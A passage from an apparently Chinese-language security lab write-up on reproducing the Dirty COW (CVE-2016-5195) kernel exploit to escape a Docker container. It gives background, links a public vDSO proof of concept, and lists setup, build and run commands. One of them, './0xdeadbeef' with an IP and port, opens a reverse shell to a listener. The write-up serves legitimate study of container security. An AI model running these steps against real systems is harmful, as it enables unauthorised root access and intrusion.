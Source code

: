 近年来，Linux 系统曝出过无数内核漏洞，其中能够用来提权的也不少，脏牛依赖于内存页的写时复制机制，该机制英文名称为 Copy-on-Write，再结合内存页特性，将漏洞命名为 Dirty CoW，译为脏牛）大概是其中最有名气的漏洞之一。漏洞发现者甚至为其申请了专属域名（dirtycow.ninja），在笔者的印象中，上一个同样申请了域名的严重漏洞还是 2014 年的心脏滴血（CVE-2014-0160，heartbleed.com）。自这两个漏洞开始，越来越多的研究人员开始为他们发现的高危漏洞申请域名（尽管依然是极少数）。

关于脏牛漏洞的分析和利用文章早已遍布全网。这里我们使用来自 scumjr 的 [PoC](https://github.com/scumjr/dirtycow-vdso) 来完成容器逃逸。该利用的核心思路是向 vDSO 内写入 shellcode 并劫持正常函数的调用过程。

复现：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```bash<br>./metarget cnv install cve-2016-5195<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>docker-compose run dirtycow /bin/bash<br>``` |

进入容器，编译 POC：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 192.168.172.136:1234<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

-   云原生安全——攻防实践与体系构建
